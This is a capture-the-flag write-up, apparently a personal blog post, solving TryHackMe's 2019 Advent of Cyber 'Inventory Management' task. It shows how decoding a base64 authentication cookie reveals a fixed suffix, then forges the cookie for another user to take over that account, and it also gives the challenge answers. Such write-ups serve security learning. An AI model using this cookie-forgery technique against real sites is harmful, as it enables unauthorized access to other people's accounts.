 ```yaml
---
layout: post
title: TryHackMe - 25 Days of Christmas
---
```


This TryHackMe room was open for the 2019 Advent of Cyber event but was made private likely to avoid confusion with the new 2020 Advent of Cyber Room event currently running. Since I finished the new challenges (they are released one a day), I thought I'd go back and finish this room. But since I can't, I figured I'd post the solutions that I already had.

## Inventory Management
Deploy the machine and access the website at `http://[your-ip-here]:3000`.


### What is the name of the cookie used for authentication?

Go to `http://[your-ip-here]:3000/register` to make an account, then login.

```
GET /home HTTP/1.1
Host: 10.10.120.159:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.120.159:3000/register
DNT: 1
Connection: close
Cookie: authid=YXY0ZXI5bGwxIXNz
Upgrade-Insecure-Requests: 1
```

Cookie is named authid.

### If you decode the cookie, what is the value of the fixed part of the cookie?

```
$ echo YXY0ZXI5bGwxIXNz | base64 -d
av4er9ll1!ss
```
My username is 'a', so the fixed part of the cookie might be 'v4er9ll1!ss'. I made another account to verify this was true.

### After accessing his account, what did the user mcinventory request?

```
$ echo -ne 'mcinventoryv4er9ll1!ss' | base64
bWNpbnZlbnRvcnl2NGVyOWxsMSFzcw==
[convert to URL encoding]
bWNpbnZlbnRvcnl2NGVyOWxsMSFzcw%3D%3D
```
Set authid cookie, and you're logged in. In the entries table, mcinventory requested a firewall.
